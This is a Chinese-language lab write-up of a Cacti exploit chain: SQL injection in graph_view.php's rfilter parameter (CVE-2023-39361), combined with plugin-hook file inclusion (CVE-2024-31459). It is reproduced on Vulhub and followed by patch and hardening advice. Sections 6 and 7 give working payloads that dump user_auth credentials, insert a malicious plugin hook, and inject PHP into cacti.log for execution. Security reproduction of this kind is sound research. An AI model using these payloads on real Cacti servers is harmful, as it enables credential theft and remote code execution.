



# CVE-2023-39361 / CVE-2024-31459 - Cacti graph_view.php SQL 注入导致远程代码执行复现

## 1. 漏洞概述

Cacti 是一个开源网络监控与图形化展示系统，常用于采集设备监控数据并通过 RRDTool 生成图表。该复现涉及两个漏洞：

| CVE            | 漏洞点                                    | 作用                                 |
| -------------- | -------------------------------------- | ---------------------------------- |
| CVE-2023-39361 | `graph_view.php` 中 `rfilter` 参数 SQL 注入 | 可读取数据库信息，也可在支持堆叠查询时写入数据库           |
| CVE-2024-31459 | `lib/plugin.php` 中插件 Hook 文件包含问题       | 读取数据库中的插件 Hook 配置并拼接文件路径进行 include |

CVE-2023-39361 的官方 Advisory 说明：漏洞位于 `graph_view.php`，当 guest 用户可访问 `graph_view.php` 且 guest 功能启用时，攻击者可能在未认证场景下触发 SQL 注入，并造成管理员权限劫持或远程代码执行风险。该漏洞影响 Cacti 1.2.24，修复版本为 1.2.25 和 1.3.0。

CVE-2024-31459 的官方 Advisory 和 NVD 描述指出：`lib/plugin.php` 中 `api_plugin_hook()` 会读取数据库中的 `plugin_hooks` 和 `plugin_config` 表，并将读取到的数据直接用于拼接文件包含路径；该问题在结合 SQL 注入时可实现远程代码执行，影响 Cacti `<= 1.2.26`，修复版本为 1.2.27。

---

## 2. 影响版本与利用条件

| 条件        | 说明                                     |
| --------- | -------------------------------------- |
| 组件        | Cacti                                  |
| SQL 注入漏洞  | CVE-2023-39361                         |
| 文件包含漏洞    | CVE-2024-31459                         |
| SQLi 影响版本 | Cacti 1.2.24，官方修复于 1.2.25 / 1.3.0      |
| 文件包含影响版本  | Cacti `<= 1.2.26`，官方修复于 1.2.27         |
| SQLi 触发文件 | `graph_view.php`                       |
| SQLi 触发参数 | `rfilter`                              |
| SQLi 前置条件 | guest 用户启用时可未授权访问；管理员登录后也可复现           |
| RCE 前置条件  | 需要利用 SQLi 写入插件 Hook 配置，并让 Cacti 包含可控内容 |
| RCE 本质    | SQL 注入污染数据库配置 + 插件 Hook 文件包含           |
| 复现环境      | Vulhub Cacti 1.2.24 本地靶场               |

这里要注意：**CVE-2023-39361 本身是 SQL 注入，不等于必然 RCE。**  
RCE 成立依赖后续文件包含链，也就是 CVE-2024-31459 的插件 Hook 包含逻辑。不要把“SQLi 可读取数据库”直接写成“必然 getshell”，这点要稳。

---

## 3. 漏洞原理

### 3.1 CVE-2023-39361：`rfilter` 参数进入 SQL

漏洞位于 `graph_view.php` 调用链中。当 `action=tree_content` 时，Cacti 会处理图形树右侧内容。官方 Advisory 指出，流程会进入 `grow_right_pane_tree()` 函数，`rfilter` 参数虽然经过 `html_validate_tree_vars()` 校验，但该校验只确保输入是有效正则表达式，并不保证其中不包含 SQL 代码。随后，`rfilter` 被拼接进 `RLIKE` 查询条件。

理解链路：

```
graph_view.php?action=tree_content
  ↓
html_validate_tree_vars() 校验 rfilter 是否是正则表达式
  ↓
grow_right_pane_tree() 使用 rfilter 拼接 RLIKE 条件
  ↓
rfilter 中的内容进入 SQL WHERE 子句
  ↓
SQL 语义被篡改
```

漏洞关键不在于 `RLIKE` 本身，而在于：**正则表达式校验不能替代 SQL 参数化。**  
一个字符串可以同时是“合法正则表达式”，也可以在 SQL 拼接上下文中破坏查询结构。

### 3.2 CVE-2024-31459：插件 Hook 文件包含

Cacti 的插件机制会从数据库表中读取插件 Hook 配置。官方 Advisory 和 NVD 都说明，`api_plugin_hook()` 会读取 `plugin_hooks` 和 `plugin_config` 表，并将读取到的数据直接用于拼接文件路径进行 include。

理解链路：

```
SQLi 写入 plugin_hooks / plugin_config
  ↓
Cacti 登录流程触发某个 hook，例如 login_before
  ↓
api_plugin_hook() 从数据库读取 hook 配置
  ↓
读取到的 file 字段被拼接为 include 路径
  ↓
如果 file 指向包含 PHP 代码的日志文件
  ↓
PHP 代码被包含并执行
```

因此，该漏洞链的本质是：

```
SQL 注入
→ 数据库配置污染
→ 插件 Hook 文件包含
→ 包含日志中的 PHP 代码
→ 代码执行
```

---

## 4. Vulhub 环境启动

进入 Vulhub 对应目录：

```
cd vulhub/cacti/CVE-2023-39361
docker compose up -d
```

服务启动后访问：

```
http://127.0.0.1:8080
```

默认账号：

```
admin / admin
```

首次登录后按初始化向导完成配置。这个过程不需要额外配置复杂选项，按照页面提示继续即可，直到进入 Cacti 主界面。

如果需要未认证复现 SQL 注入，需要在后台启用 guest 用户：

```
Configuration -> Authentication -> Enable Guest User
```

如果只是本地靶场验证漏洞链，也可以在管理员登录状态下完成复现。未认证与否影响的是攻击入口权限，不影响 SQL 注入和后续文件包含链的本质。

---

## 5. 浏览器确认基础功能

浏览器负责确认 Cacti 服务和业务入口正常：

| 验证项         | 预期现象                     |
| ----------- | ------------------------ |
| 访问首页        | 出现 Cacti 登录页面            |
| 使用默认账号登录    | `admin / admin` 可进入初始化流程 |
| 完成初始化       | 进入 Cacti 控制台             |
| 访问图形页面      | `graph_view.php` 页面可访问   |
| 启用 guest 用户 | 未登录状态下可访问部分图形视图          |

普通访问用于建立基线。真正的漏洞触发点是 `graph_view.php` 的 `rfilter` 参数，不是登录页面本身。



---

## 6. 使用 Burp 触发 SQL 注入

### 6.1 读取数据库信息

在浏览器中访问图形页面后，用 Burp 捕获或手动构造 `graph_view.php` 请求。关键参数如下：

```
graph_view.php
action=tree_content
node=1-1-tree_anchor
rfilter=...
```

本地靶场中的关键路径片段：

```
/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=...
```

用于验证 SQL 注入的最小思路是：

```
闭合 rfilter 所在的 RLIKE 字符串
  ↓
构造 UNION SELECT
  ↓
让响应中出现数据库用户、版本或 user_auth 表信息
```

Vulhub 页面给出的验证样例会读取 `user_auth` 表中的账号信息，并同时返回当前数据库用户与版本。

```
rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

成功后，页面响应中可观察到数据库信息和用户账号相关数据。这说明 `rfilter` 已经突破正则过滤边界并参与 SQL 查询。



### 6.2 关键判断点

| 判断点                    | 说明          |
| ---------------------- | ----------- |
| 是否访问 `graph_view.php`  | 确认进入正确功能点   |
| `action=tree_content`  | 触发右侧图形树内容逻辑 |
| `node=1-1-tree_anchor` | 保证进入树节点处理分支 |
| `rfilter`              | SQL 注入核心输入点 |
| 响应中出现数据库信息             | SQLi 验证成功   |

---

## 7. 利用 SQL 注入触发文件包含链

CVE-2024-31459 本身是文件包含问题，但它需要数据库中的插件 Hook 配置被污染。CVE-2023-39361 提供了写入数据库的入口。

### 7.1 写入插件 Hook 配置

目标是向 `plugin_hooks` 表写入一条 Hook，使登录流程触发时包含日志文件：

```
plugin_hooks.name   = .
plugin_hooks.hook   = login_before
plugin_hooks.file   = ../log/cacti.log
plugin_hooks.status = 1
```

首先，添加一个指向`log/cacti.log`文件的新插件钩子：

```sql
http://your-ip:8080/graph_view.php?action=tree_content&node=
1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO
%20plugin_hooks(name,hook,file,status)%20VALUES%20(".",
"login_before","../log/cacti.log",1);%23

http://your-ip:8080/graph_view.php?action=tree_content&node=
1-1-tree_anchor&rfilter=aaaaa" OR ""="(("));INSERT INTO
 plugin_hooks(name,hook,file,status) VALUES (".",
"login_before","../log/cacti.log",1);#
```

放到 `rfilter` 参数里时，本质是利用堆叠查询执行插入操作。

| 字段       | 作用               |
| -------- | ---------------- |
| `name`   | 插件名或插件标识         |
| `hook`   | 触发点，这里使用登录前 Hook |
| `file`   | 被包含的文件路径         |
| `status` | 是否启用             |

这一步成功后，Cacti 后续访问登录页面时，会尝试执行 `login_before` Hook，并包含 `../log/cacti.log`。

### 7.2 将 PHP 测试代码写入日志

下一步需要让 `log/cacti.log` 中出现 PHP 代码。

利用报错SQL注入，将PHP代码写入`log/cacti.log`文件：

```sql
http://your-ip:8080/graph_view.php?action=tree_content&
node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION
%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20
phpinfo();?>",0x7e),null),8,9,10%23

http://your-ip:8080/graph_view.php?action=tree_content&
node=1-1-tree_anchor&rfilter=aaaaa" OR ""="((")) UNION
 SELECT 1,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php 
phpinfo();?>",0x7e),null),8,9,10#
```

对应关键机制：

```
构造会报错的 SQL 表达式
  ↓
错误内容中包含 PHP 代码
  ↓
Cacti 将错误写入 log/cacti.log
  ↓
插件 Hook 包含 log/cacti.log
  ↓
PHP 代码被解释执行
```

本地靶场中可用类似以下关键片段说明机制：

```
updatexml(rand(), concat(0x7e, "<?php phpinfo();?>", 0x7e), null)
```

这里的 `updatexml()` 用于触发数据库错误，`concat()` 中的 PHP 代码会进入错误信息并写入日志。**

---

## 8. 浏览器验证漏洞结果

完成数据库 Hook 写入和日志写入后，用浏览器访问登录页面：

```
http://127.0.0.1:8080/index.php
```

或直接访问 Cacti 登录入口。

此时，访问登录页面时，PHPINFO函数将执行并显示：



如果显示 `phpinfo()` 页面，说明：

```
plugin_hooks 被成功污染
  ↓
login_before hook 被触发
  ↓
../log/cacti.log 被包含
  ↓
日志中的 PHP 代码被执行
```

这时可以判断 CVE-2023-39361 与 CVE-2024-31459 的组合链复现成功。

---

## 9. 结果判断

| 现象                   | 含义                                     |
| -------------------- | -------------------------------------- |
| Cacti 登录页无法访问        | 容器未启动、端口错误或服务初始化失败                     |
| 默认账号无法登录             | 初始化状态、密码变化或环境不一致                       |
| `graph_view.php` 可访问 | 图形视图入口存在                               |
| 未登录可访问图形页            | guest 用户启用，具备未认证复现条件                   |
| SQLi 请求返回数据库用户 / 版本  | `rfilter` SQL 注入成立                     |
| SQLi 请求无明显回显         | 可能字段数不匹配、payload 编码错误、环境未进入对应分支        |
| 插入 Hook 后无变化         | `plugin_hooks` 写入失败、Hook 名称不正确或登录流程未触发 |
| 日志中没有 PHP 代码         | 错误未写入日志、日志路径错误或 payload 未触发错误          |
| 访问登录页显示 phpinfo      | SQLi + 文件包含链成功                         |
| 页面报 include 错误       | 文件路径、Hook 配置或日志位置不正确                   |
| 修复版本中无法复现            | 符合预期，漏洞已被补丁修复                          |

---

## 10. 修复建议

### 10.1 版本升级

CVE-2023-39361 官方建议升级到 Cacti 1.2.25 或 1.3.0；NVD 也说明该问题已在 1.2.25 中修复，且没有已知 workaround。

CVE-2024-31459 官方修复版本为 Cacti 1.2.27，NVD 同样说明 1.2.27 包含补丁。

| 漏洞             | 修复版本           |
| -------------- | -------------- |
| CVE-2023-39361 | 1.2.25 / 1.3.0 |
| CVE-2024-31459 | 1.2.27         |

如果要同时覆盖这条组合链，建议直接升级到 **1.2.27 或更高版本**。

### 10.2 配置与代码层加固

| 防护项      | 建议                                  |
| -------- | ----------------------------------- |
| guest 用户 | 不需要时禁用 guest 访问                     |
| SQL 查询   | `rfilter` 等用户输入不得直接拼接进 SQL          |
| 参数校验     | 正则合法性校验不能替代 SQL 参数化                 |
| 数据库权限    | Cacti 数据库账号应最小权限，避免 Web 层账号具备不必要写权限 |
| 插件 Hook  | Hook 配置中的文件路径必须限制在插件目录内             |
| 文件包含     | 禁止直接使用数据库内容拼接 include 路径            |
| 日志安全     | 日志文件不应被 PHP include 执行              |
| 错误处理     | 避免数据库错误内容直接进入可执行上下文                 |

---

## 11. 复现总结

该漏洞链由两个问题组合而成：CVE-2023-39361 提供 `graph_view.php` 中 `rfilter` 参数的 SQL 注入入口；CVE-2024-31459 提供插件 Hook 文件包含能力。单独看，前者主要造成数据库读取和数据库配置污染，后者主要是文件包含缺陷；组合后，攻击者可以通过 SQL 注入写入插件 Hook，再将 PHP 代码写入日志文件，最终在登录流程中包含日志并执行 PHP 代码。

复现成功的关键点有三个：

```
rfilter 参数是否能触发 SQL 注入
plugin_hooks 是否能被 SQLi 写入
log/cacti.log 是否能被 Hook 包含并解析 PHP
```

这组漏洞适合沉淀到 **SQL 注入到 RCE / 二阶段漏洞链 / 监控系统安全 / 数据库配置污染导致代码执行** 专题中。它比普通 SQL 注入更有综合性：不仅要理解 SQLi，还要理解数据库写入如何影响应用配置，以及应用插件机制如何把数据库内容带入文件包含路径。


